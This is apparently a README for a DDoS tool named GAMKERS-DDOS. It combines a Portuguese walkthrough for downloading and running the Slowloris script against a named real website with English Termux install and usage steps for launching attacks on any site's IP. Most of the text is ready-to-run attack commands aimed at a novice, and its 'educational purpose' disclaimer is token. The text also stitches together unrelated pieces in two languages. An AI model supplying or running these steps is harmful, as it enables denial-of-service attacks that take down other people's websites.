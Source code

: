 # GAMKERS-DDOS

/Agora digite o seguinte comando para fazendo o download dele:

wget http://ha.ckers.org/slowloris/slowloris.pl

E agora comando para dar privilégio de acesso ao arquivo :
#chmod 777 slowloris.pl

Agora executamos ele com simples comando para atacar o alvo:
./slowloris.pl -dns xvideos.com.br

Ou podemos usar um comandos mais rebuscado, sentado as opções:
# slowloris.pl -dns www.sitealvocom.br -port 80 -timeout 5 -num 5000 -cache

# –dns = Indica o alvo, podendo ser um IP ou uma URL. 
# –port = Porta para o ataque. 
# -timeout = Tempo de espera entre cada ataque 
# -num = Número de pacotes que serão enviado.
Para CANCELAR o ataque aperte Ctrl + CDistributed Denial Of Service (DDoS) attacks are a subclass of denial of service (DoS) attacks. A DDoS attack involves multiple connected online devices, collectively known as a botnet, which are used to overwhelm a target website with fake traffic.


Note: THIS TOOL IS JUST ONLY FOR EDUCATIONAL PURPOSE..GIVING DDOS ATTACKs WITHOUT SITE OWNER'S PERMISSION IS ILLEGAL.. SO USE IT AT YOUR OWN RISK.. WE'LL BE NOT RESPONSIBLE FOR ANY TYPES OF MISISSUES!!!


How To Install GAMKERS-DDOS In Termux
The Tool Installation Process Is Very Easy.. Just Open Your Termux & Type This Provided Commands!!

$ apt update && apt upgrade

$ pkg install python

$ pkg install python2

$ pkg install git

$ pkg install figlet

$ git clone https://github.com/gamkers/GAMKERS-DDOS.git

$ cd GAMKERS-DDOS

$ chmod +x GAMKERS-DDOS.py

$ python2 GAMKERS-DDOS.py


To Run

$ cd GAMKERS-DDOS

$ python2 GAMKERS-DDOS.py


Your Tool Install & Setup Done!!..Now Go To Google & Search`Website IP Finder`Now Open The 1st Wesite & Place Your Target Website Url e.g. www.biribaba.com..


After Getting The Website IP , Copy The IP & Come To The Termux.. Now Paste The Target Website IP On `Ip Target:` & Give The Port Number `8080`

Booom!! Your Ddos Attack Had Been Started...
